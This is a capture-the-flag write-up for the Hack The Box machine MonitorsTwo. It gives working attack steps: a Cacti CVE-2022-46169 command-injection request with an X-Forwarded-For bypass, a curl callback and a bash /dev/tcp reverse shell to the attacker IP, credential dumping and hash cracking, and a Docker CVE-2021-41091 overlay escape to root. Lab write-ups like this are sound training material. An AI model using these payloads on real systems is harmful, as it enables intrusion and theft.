 # MonitorsTwo Writeup - by Thammanant Thamtaranon  

- MonitorsTwo is an easy Linux-based machine hosted on Hack The Box.

## Reconnaissance  
- I began with a full TCP port scan including service/version detection and OS fingerprinting:  
  `nmap -A -T4 -p- 10.10.11.211`  

![Nmap_Scan](Nmap_Scan.png)  

- The scan revealed two open ports:  
  - 22 (SSH)  
  - 80 (HTTP)  

## Scanning & Enumeration  
- Upon accessing the web service, I identified the application as Cacti version 1.2.22.

![Cacti](Cacti.png) 

## Exploitation  
- Researching this specific Cacti version led me to discover **CVE-2022-46169**, a critical unauthenticated command injection vulnerability affecting the `remote_agent.php` endpoint. This vulnerability occurs due to insufficient input sanitization in the `poller_id` parameter.

- Initial exploitation attempts failed due to IP-based restrictions:  
  `GET /remote_agent.php?action=polldata&poller_id=1;id&host_id=1&local_data_ids[]=1`  

![Request1](Request1.png)  

- Bypassing this restriction required adding a spoofed localhost header:  
  `X-Forwarded-For: 127.0.0.1`  

- After extensive parameter testing, I discovered valid parameters that would execute commands:  
  `host_id=1&local_data_ids[]=6`  

- Successful command execution was verified by triggering a callback to my attack machine:  
  `GET /remote_agent.php?action=polldata&poller_id=1;curl${IFS}10.10.16.11:8000&host_id=1&local_data_ids[]=6`  

![Request2](Request2.png)  
![Request3](Request3.png)  

- This led to establishing a reverse shell connection as the `www-data` user:  
  `bash -c 'bash -i >& /dev/tcp/10.10.16.11/4444 0>&1'`  

![www-data](www-data.png)  

- While exploring the container environment, I discovered database credentials in the Cacti configuration file:  
  `cat /var/www/html/cacti/include/config.php`  

![Config](Config.png)  

- Using these credentials, I enumerated the MySQL database structure:  
  `mysql -u root -h db -proot -e "SHOW DATABASES;"`  
  `mysql -u root -h db -proot -e "USE cacti; SHOW TABLES;"`  

- The `user_auth` table contained password hashes for Cacti users:  
  `mysql -u root -h db -proot -e "USE cacti; SELECT * FROM user_auth;"`  

![Credentials](Credentials.png)  

- I successfully cracked user `marcus`'s hash using John the Ripper:  
  `john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt`  

![Cracked](Cracked.png)  

- The cracked credentials granted SSH access as the `marcus` user:  
  `ssh marcus@10.10.11.211`  

![Marcus](Marcus.png)

- I then captured the user flag.

## Privilege Escalation  
- Checking sudo privileges revealed that, unfortunately, user `marcus` was not permitted to execute any commands via sudo:  
  `sudo -l`  

![SUDO](SUDO.png)

- We found a mail for user `marcus`.

![Mail](Mail.png)

- The mail described three vulnerabilities, the most interesting being **CVE-2021-41091**.
- **CVE-2021-41091** is a Docker Engine (Moby) vulnerability that allows attackers inside a container to traverse directories and access/modify files on the host system due to insecure permissions in `/var/lib/docker`.

- We checked the Docker version and confirmed the vulnerability.

![Version](Version.png)

- The exploit indicates that obtaining root on the container allows root access on the host machine.
- We re-entered the container.
- We ran the command `find / -perm -4000 -type f 2>/dev/null` to check for any SUID files and found `capsh`.

![SUID](SUID.png)

- Searching GTFOBins for `capsh` revealed a method to gain root privileges.

![GTFOBins](GTFOBins.png)

- We gained root in the container.

![Container_Root](Container_Root.png)

- We then ran `chmod +s /bin/bash` inside the container.
- On the host machine, we identified the overlay mount points:  
  `findmnt | grep "/var/lib/docker/overlay2" | awk '{print $1}'`

![Overlay](Overlay.png)

- Since we were unsure which overlay contained our SUID bash, we executed `/bin/bash -p` on each.
- This gave us a root shell on the host machine.

![Root](Root.png)

- Finally, we captured the root flag.
